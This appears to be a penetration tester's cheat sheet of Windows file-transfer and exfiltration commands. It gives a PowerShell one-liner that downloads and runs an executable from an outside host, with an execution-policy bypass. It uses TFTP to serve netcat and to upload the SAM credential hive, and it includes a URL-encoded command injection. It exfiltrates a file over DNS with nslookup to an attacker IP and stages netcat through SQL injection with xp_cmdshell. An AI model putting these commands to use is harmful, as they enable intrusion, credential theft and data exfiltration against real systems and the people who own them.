 ```bash cheat filetransfer file powershell
cmd.exe /c "PowerShell (New-Object System.Net.WebClient).DownloadFile('http://www.greyhathacker.net/tools/messbox.exe','mess.exe');(New-Object -com Shell.Application).ShellExecute('mess.exe')"
```

### Onliner via cmd - tested on Win7
```bash cheat filetransfer file powershell
echo param([string]$url); > get.ps1 & echo $filename = $url.Substring($URL.LastIndexOf("/") + 1) >> get.ps1 & echo $webclient = New-Object System.Net.WebClient >> get.ps1 & echo $file = "$pwd\$filename" >> get.ps1 & echo Write-Host "downloading to file: $file"; >> get.ps1 & echo $webclient.DownloadFile($url,$file) >> get.ps1

powershell -executionPolicy bypass -command ".\get.ps1 http://192.168.2.200/file.exe"
```

## tftp - Windows 7, Win2008, VISTA
tftp is optional software

### Setup the TFTP server
mkdir  /tftp
atftpd ‐‐daemon -­­‐port 69 /tftp
cp /usr/share/windows­‐binaries/nc.exe /tftp/

### Setup alternative
/etc/init.d/atftpd start
cp /usr/share/windows­‐binaries/nc.exe /srv/tftp/

### Invoke  the  tftp  client
tftp -i HOSTADDR GET nc.exe
tftp -i HOSTADDR PUT sam
cmd.exe?/x+/c+"tftp.exe+-i+172.16.254.42+GET+Wshell3333.exe"


## dns
Exifltrate files from windows. Run Wireshark or TCPDump on your host and then extract the exifltrated content and unhex it

```bat cheat filetransfer Exfiltrate using nslookup
net user && powershell -executionpolicy bypass "Get-Content "C:\exfill-me.txt" | ForEach-Object {nslookup $_ <ip>}"
```

## debug.exe
works on 32bit systems only
"EXE to BAT converter" Version 2.0 uses a BASE64 decoder stub
./e2b.py nc    # do not supply the extension ".exe"
unix2dos nc.bat

### decode.exe-formater.py - Don't remember what this was - but it was very cool
decode.exe-formater.py --file nc.exe -o 100 --prefix "exec xp_cmdshell 'echo " -a 4 --postfix ">> C:\temp\f1.txt';" > sqli
